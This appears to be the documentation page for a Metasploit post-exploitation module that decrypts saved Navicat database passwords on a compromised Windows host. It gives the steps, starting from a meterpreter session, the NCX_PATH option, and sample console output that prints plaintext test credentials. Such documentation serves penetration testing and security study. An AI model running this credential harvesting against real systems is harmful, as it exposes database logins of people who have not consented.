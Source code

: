 ## Vulnerable Application

This module can decrypt the password of navicat, If the user chooses to remember the password.

  Analysis of encryption algorithm [here](https://github.com/HyperSine/how-does-navicat-encrypt-password).

  You can find its official website [here](https://navicat.com/).

## Verification Steps

  1. Download the latest installer of Navicat.
  2. Use navicat to log in to DB server.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: `run post/windows/gather/credentials/navicat`
  6. If the session file is saved in the system, the host, port, user name and plaintext password will be printed.

## Options

### NCX_PATH

Specify the path of the NCX export file. e.g.: connections.ncx

## Scenarios

```
meterpreter > run post/windows/gather/credentials/navicat 

*] Gathering Navicat password information from WIN-79MR8QJM50N 
Navicat Sessions 
================

Name            Protocol  Hostname   Port   Username  Password
----            --------  --------   ----   --------  --------
mongodb         mongodb   localhost  27017  user      password  
test_mysql      mysql     localhost  3306   root      test_mysql_password 
test_oracle     oracle    127.0.0.1  1521   user      password
test_pg         postgres  localhost  5432   postgres  test_pg_password
test_sqlserver  mssql     127.0.0.1  1433   user      password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002233644_default_192.168.80.128_host.navicat_ses_919319.txt
[*] Post module execution completed
meterpreter > 
```

* Specify **NCX_PATH**

```
msf post(windows/gather/credentials/navicat) > set ncx_path C:\\Users\\FireEye\\Desktop\\connections.ncx
ncx_path => C:\Users\FireEye\Desktop\connections.ncx
msf post(windows/gather/credentials/navicat) > run

[*] Gathering Navicat password information from WIN-79MR8QJM50N
[*] Looking for C:\Users\FireEye\Desktop\connections.ncx
[+] navicat.ncx saved to /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_navicat.creds_838577.txt
Navicat Sessions
================

Name            Protocol  Hostname   Port   Username  Password
----            --------  --------   ----   --------  --------
mongodb         mongodb   localhost  27017  user      password  
test_mysql      mysql     localhost  3306   root      test_mysql_password 
test_oracle     oracle    127.0.0.1  1521   user      password
test_pg         postgres  localhost  5432   postgres  test_pg_password
test_sqlserver  mssql     127.0.0.1  1433   user      password

[+] Session info stored in: /home/kali-team/.msf4/loot/20221002234356_default_192.168.80.128_host.navicat_ses_522370.txt
[*] Finished processing C:\Users\FireEye\Desktop\connections.ncx
[*] Post module execution completed


```
